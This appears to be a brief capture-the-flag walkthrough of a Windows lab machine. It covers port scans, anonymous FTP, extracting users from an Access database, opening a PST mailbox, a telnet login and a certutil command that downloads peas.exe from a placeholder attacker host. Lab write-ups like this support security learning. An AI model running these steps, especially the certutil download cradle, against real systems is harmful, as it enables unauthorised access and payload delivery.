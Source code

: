 # Access

## NMAP 

```console
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
23/tcp open  telnet  syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

```console
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Web

![Web](./images/Accessed-Web.png)

## FTP

* use ```bin``` to transfer data in binary rather than ASCII (typical windows things)

![Web](./images/Access-ftp.png)

## mdb

```bash
 sudo apt-get install mdbtools   
```

```bash
mdb-tables backup.mdb
mdb-export auth_users
```

## 7zip

* 7z x "Access Control.zip" -p"password"

## PST

```bash
sudo apt install pst-utils
readpst "Access Control.pst"
cat "Access Control.mbox"
```

## Telnet 23 User Own

```bash
telnet $IP 23
cat Desktop/user.txt
```

## Certutil

```Powershell
certutil -urlcache -split -f http://attack-ip peas.exe
```
